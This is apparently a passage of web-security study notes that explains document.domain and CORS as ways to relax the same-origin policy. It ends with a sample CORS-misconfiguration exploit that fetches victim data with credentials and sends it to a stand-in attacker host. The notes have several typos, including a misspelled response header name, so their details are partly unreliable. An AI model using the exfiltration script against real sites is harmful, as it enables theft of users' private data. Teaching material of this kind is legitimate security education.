 to main domain by 

```jsx
document.domain="example.com"
```

This method is good but is has limitation → So you can only set document.domain of the page to Superdomain

In instance, you can’t make the origin of [a.example.com](http://a.example.com) to [example2.com](http://example2.com) [They didn’t have the same Superdomain]

---

# `Exploiting CORS`

Because of These limitaion → Most sites uses the Cross Origin Resourse Sharing [CORS] to relax SOP.

CORS : is a mechanism tha protect data of server, It allow server to specify list of origins that allow to access its resourses via HTTP Response header

```jsx
Acccess-Control-Allow-Origin
```

# `Example`

If we want to send [a.example.com/user_info](http://a.example.com/user_info) to [b.example.com](http://b.example.com) 

If we using SOP, we won’t be able to Access JSON As they are different Origins.

But in CORS we will send the origin header like that:

```jsx
Origin:b.example.com
```

If [b.example.com](http://b.example.com) in whitelist with permission to access resourses on [a.example.com](http://a.example.com) then it will send a response like that:

```jsx
Access-Control-Allow-Origins:b.example.com 
```

Threre for the attacker can steal information by submmitinb this script in your website:

```jsx
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='//malicious-website.com/log?key='+this.responseText;
};
```

---